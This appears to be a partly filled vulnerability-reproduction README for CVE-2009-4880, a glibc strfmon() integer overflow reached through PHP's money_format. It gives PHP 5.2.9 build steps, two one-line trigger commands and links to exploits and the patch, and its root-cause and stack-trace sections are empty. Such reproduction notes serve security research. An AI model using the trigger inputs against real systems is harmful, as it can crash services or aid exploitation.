 # CVE-2009-4880

## Experiment Environment

CentOS 5.5

## INSTALL & Configuration

Preinstalled environment and install php

```
tar -xvf php-5.2.9.tar.gz
cd php-5.2.9
./configure
make
```

## Problems in Installation & Configuration


## How to trigger vulnerability

```
./sapi/cli/php -r 'money_format("%.1073741821i",1);'
./sapi/cli/php -r 'money_format("%.1343741821i",1);'
```

## PoCs

[ GNU glibc 'strfmon()' Function Integer Overflow Weakness](https://bugs.gentoo.org/285818)

[GNU glibc 'strfmon()' Function Integer Overflow Weakness](https://www.securityfocus.com/bid/36443/exploit)

[GNU glibc 2.x - 'strfmon()' Integer Overflow](https://www.exploit-db.com/exploits/33230/)

## Vulnerability Patch

### Root Cause

### Stack Trace

### Patch

See details in <https://sourceware.org/git/?p=glibc.git;a=commit;h=199eb0de8d673fb23aa127721054b4f1803d61f3>

## References
